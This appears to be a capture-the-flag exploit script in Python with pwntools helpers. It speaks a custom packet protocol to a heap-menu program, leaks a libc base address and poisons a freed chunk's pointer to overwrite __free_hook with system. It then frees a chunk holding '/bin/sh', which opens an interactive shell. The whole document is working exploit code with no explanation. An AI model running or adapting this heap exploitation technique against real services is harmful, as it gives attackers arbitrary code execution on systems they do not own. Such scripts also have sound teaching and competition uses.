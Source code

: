```python

def pack_str(content: bytes):
    return b'\xBD' + len(content).to_bytes(1,'little') + content


def payload(cmd: int, idx: int, size: int = 0x20, content: bytes = b'A'*0x20) -> bytes:
    payload = b'\xB9\x05'
    payload += cmd.to_bytes(1, 'little')
    payload += b'\x82' + p32(idx) + b'\x82' + p32(size)
    payload += pack_str(content)
    payload += b'\x00'
    return payload


def send_packet(content: bytes):
    sh.sendlineafter(b'Packet length: ', str(len(content)).encode())
    sh.sendafter(b'Content: ', content)


def add(idx: int, size: int):
    send_packet(payload(0, idx, size))


def show(idx: int):
    send_packet(payload(1, idx))


def delete(idx: int):
    send_packet(payload(2, idx))


def edit(idx: int, content: bytes):
    send_packet(payload(3, idx, 0, content))
    

add(0, 0x580)  # 0
add(1, 0x10)  # 1
delete(0)
add(2, 0x10)  # 2
show(2)

libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x3ec0f0
print("libc_base >>> ", hex(libc_base))

free_hook_addr = libc_base + libc.sym['__free_hook']
system_addr = libc_base + libc.sym['system']

add(3, 0x20)  # 3
add(4, 0x20)  # 4
add(5, 0x20)  # 5
delete(4)
edit(3, p64(0)*5+p64(0x31)+p64(free_hook_addr))
add(6, 0x20)  # 6
add(7, 0x20)  # 7 <- free_hook
# gdb.attach(sh, 'b *$rebase(0x2982)\n' + 'x/20gx $rebase(0x205400)')
# pause()
edit(6, b'/bin/sh\x00')
edit(7, p64(system_addr))
delete(6)

sh.interactive()

```